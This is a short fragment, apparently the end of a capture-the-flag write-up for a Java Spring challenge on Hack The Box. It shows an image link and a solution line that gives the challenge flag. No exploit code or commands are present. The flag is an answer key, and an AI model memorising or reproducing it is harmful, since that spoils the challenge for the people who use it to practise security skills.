


### 3. Solution ###
1. **Result:** The flag is `HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}`


